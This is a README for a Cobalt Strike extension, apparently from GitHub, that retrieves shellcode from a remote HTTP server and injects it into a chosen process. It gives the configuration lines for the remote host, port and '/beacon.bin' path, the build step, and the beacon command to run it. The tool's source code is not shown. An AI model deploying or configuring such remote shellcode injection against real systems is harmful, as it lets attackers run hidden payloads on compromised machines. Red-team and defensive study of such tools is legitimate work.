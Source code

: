 # Inject-http BOF
A custom `inject` function of Cobalt Strike, which injects the shellcode in a process by retrieving the shellcode from a remote HTTP server.

## Usage  

Make sure to change the values on `inject-http.c` (line 59):  

```
    //--------- CONFIGURE -----------
    LPCWSTR remotehost = L"192.168.0.x"; //change to your IP
    int remoteport = 8081; //change to your port
    LPCWSTR remotedir = L"/beacon.bin"; //change to your directory of the hosted bin file
    //-------------------------------
```

Compile the script using `make`.  
```
make
```

Then load `inject-http.cna` to Cobalt Strike. To run the BOF inside a Beacon:  
```
beacon> inject-http <pid>
```

## Demo  

![wmi_in_action](https://github.com/kleiton0x00/RemoteShellcodeExec/assets/37262788/abc3b752-647f-4262-8fab-cedf631d4dda)

